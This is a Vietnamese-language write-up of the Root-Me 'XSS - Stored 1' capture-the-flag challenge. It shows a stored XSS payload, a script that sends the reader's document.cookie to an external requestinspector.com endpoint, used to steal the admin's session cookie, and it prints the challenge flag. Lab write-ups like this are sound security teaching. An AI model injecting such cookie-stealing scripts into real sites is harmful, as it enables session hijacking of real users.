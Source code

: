 # Write up challenge XSS - Stored 1

Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)<br>
</br>



<br>


Truy cập challenge ta thấy có một form gửi message.

<img src="./img/1.png" alt="normal_acc_TRAbID"/> 

<br>

<br><br>

Sau nhiều lần điền thử, gửi và refresh lại trang, em nhận thấy sau khi mình gửi message sẽ được lưu lại ở trang này và sau vài phút thì admin sẽ vào đọc tin nhắn.   

<img src="./img/2.png" alt="normal_acc_TRAbID"/>

<img src="./img/3.png" alt="normal_acc_TRAbID"/> 

<br><br>

Tiến hành inspect ta thấy có vẻ input đã không được kiểm tra và được đặt thẳng vào reponse trả về 

<img src="./img/4.png" alt="normal_acc_TRAbID"/> 

<br>

Thử sử dụng phương pháp XSS stored, chèn vào câu lệnh javascript 

<img src="./img/5.png" alt="normal_acc_TRAbID"/> 

<br>

Thật vậy có lỗ hổng!

<img src="./img/6.png" alt="normal_acc_TRAbID"/>

<div style = "page-break-after: always;"></div>

<br>


Những gì cần làm sẽ là lợi dụng lỗ hổng này để chèn đoạn script lưu trữ để khi admin truy cập vào check tin nhắn thì cookie của admin sẽ được gửi đến endpoint mà mình chỉ định.

<br> Sử dụng trang https://requestinspector.com/ để tạo endpoint và check request gửi đến. 
<br>
Tiến hành chèn script:

    <script>document.write("<img src='https://requestinspector.com/inspect/01fyyazm8j1a7pvz6wcx6mqg74?cookie="+document.cookie+"'></img>");</script>

<img src="./img/7.png" alt="normal_acc_TRAbID"/>

Nhận được request chứa cookie của user

<img src="./img/8.png" height='350' alt="normal_acc_TRAbID"/>

<br>

Việc còn lại chỉ cần đợi admin vào đọc message và ta sẽ có được cookie:
<img src="./img/9.png" alt="normal_acc_TRAbID"/>

Submit thành công 

<img src="./img/10.png" height='390' alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** NkI9qe4cdLIO2P7MIsWS8ofD6

